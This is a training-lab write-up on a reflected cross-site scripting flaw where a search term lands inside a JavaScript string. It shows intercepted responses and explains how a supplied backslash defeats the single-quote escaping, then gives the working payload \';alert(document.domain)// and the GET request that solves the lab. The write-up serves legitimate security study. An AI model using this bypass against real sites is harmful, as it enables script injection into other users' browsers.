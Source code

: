 ### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

_____

Analysis and Exploit:

1. Performed a test serch using the string **'\<"test1">**, intercepted the response and the embedded Javascript is:

```html
<script>
    var searchTerms = '\'&lt;&quot;test1&quot;&gt;';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

The single quote is escaped while angle brackets and double quotes are HTML-encoded.

2. Performed a second test search using the string **'\<"test1">**, intercepted the response

```html
<script>
    var searchTerms = '\\'&lt;&quot;test1&quot;&gt;';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

The backslash added by the filter on user input used to escape single quotes is not escaped so the backslash in the test string escapes the one added by the filter.  
This means that the single is no longer escaped and the script syntax is broken because every semicolon is interpreted as a Javascript statement terminator.

3. Used the payload ```\';alert(document.domain)//``` to exploit the Reflected XSS vulnerability

```html
<script>
    var searchTerms = '\\';alert(document.domain)//';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

_____

Script notes:

3. GET ```/?search=\';alert(document.domain)//```

If "Congratulations, you solved the lab!" in the response, the exploit worked and the lab is solved.